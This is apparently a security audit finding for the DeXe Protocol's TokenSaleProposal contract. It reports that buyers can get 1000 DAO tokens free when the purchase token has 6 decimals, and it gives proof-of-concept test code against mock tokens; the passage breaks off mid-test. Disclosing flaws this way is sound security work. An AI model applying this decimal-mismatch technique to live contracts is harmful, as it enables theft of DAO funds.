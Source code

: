 Buyer can claim 1000 DAO tokens for free. This is a total loss to the DAO.

Add PoC to `TokenSaleProposal.test.js`:

First add a new line around [L76](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/test/gov/proposals/TokenSaleProposal.test.js#L76) to add new `purchaseToken3`:
```javascript
      let purchaseToken3;
```

Then add a new line around [L528](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/test/gov/proposals/TokenSaleProposal.test.js#L528):
```javascript
      purchaseToken3 = await ERC20Mock.new("PurchaseMockedToken3", "PMT3", 6);
```

Then add a new tier around [L712](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/test/gov/proposals/TokenSaleProposal.test.js#L712):
```javascript
        {
          metadata: {
            name: "tier 9",
            description: "the ninth tier",
          },
          totalTokenProvided: wei(1000),
          saleStartTime: timeNow.toString(),
          saleEndTime: (timeNow + 10000).toString(),
          claimLockDuration: "0",
          saleTokenAddress: saleToken.address,
          purchaseTokenAddresses: [purchaseToken3.address],
          exchangeRates: [PRECISION.times(1).toFixed()],
          minAllocationPerUser: 0,
          maxAllocationPerUser: 0,
          vestingSettings: {
            vestingPercentage: "0",
            vestingDuration: "0",
            cliffPeriod: "0",
            unlockStep: "0",
          },
          participationDetails: [],
        },
```

Then add the test itself under the section `describe("if added to whitelist", () => {`:
```javascript
          it("audit buy implicitly assumes that buy token has 18 decimals resulting in loss to DAO", async () => {
            await purchaseToken3.approve(tsp.address, wei(1000));

            // tier9 has the following parameters:
            // totalTokenProvided   : wei(1000)
            // minAllocationPerUser : 0 (no min)
            // maxAllocationPerUser : 0 (no max)
            // exchangeRate         : 1 sale token for every 1 purchaseToken
            //
            // purchaseToken3 has 6 decimal places
            //
            // mint purchase tokens to owner 1000 in 6 decimal places
            //                        1000 000000
            let buyerInitTokens6Dec = 1000000000;

            await purchaseToken3.mint(OWNER, buyerInitTokens6Dec);
            await purchaseToken3.approve(tsp.address, buyerInitTokens6Dec, { from: OWNER });

            //
            // start: buyer has bought no tokens
```